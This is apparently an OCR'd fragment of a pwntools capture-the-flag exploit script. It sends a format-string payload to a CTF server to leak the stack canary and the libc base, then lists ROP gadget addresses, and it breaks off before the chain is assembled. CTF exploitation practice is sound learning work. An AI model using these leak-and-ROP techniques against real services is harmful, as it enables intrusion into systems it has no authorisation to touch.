 ```python
p = remote('xlctf.huhstsec.top', 45537)

  

elf = ELF('./attachment')

libc = ELF('./libc.so.6')

log.success('__libc_start_main: ' + hex(libc.symbols['__libc_start_main']))

log.success('read: ' + hex(libc.symbols['read']))

log.success('open: ' + hex(libc.symbols['open']))

log.success('write: ' + hex(libc.symbols['write']))

# libc = ELF('./libc6_2.35-0ubuntu3_amd64.so')

  

# payload1 = '%13$p-%19$p'

payload1 = '%13$p-%39$p'

  

p.recvuntil(b'Do you know orw?')

p.sendline(payload1)

p.recvuntil(b'\n')

p.recvuntil(b'0x')

canary = int(p.recvuntil('-', drop=True), 16)

p.recvuntil(b'0x')

# base = int(p.recvuntil(b'\n'), 16) - libc.symbols['__libc_start_main'] - 120

main_addr = int(p.recv(12), 16) - 128

base = main_addr - libc.symbols['__libc_start_main']

log.success('main:' + hex(main_addr))

log.success('canary: ' + hex(canary))

log.success('base: ' + hex(base))

  

bss = elf.bss() + 0x100

rdi = 0x4014c3

rsi_r15 = 0x4014c1

ret = 0x40101a

rdx_rbx = base + 0x90529

  
```
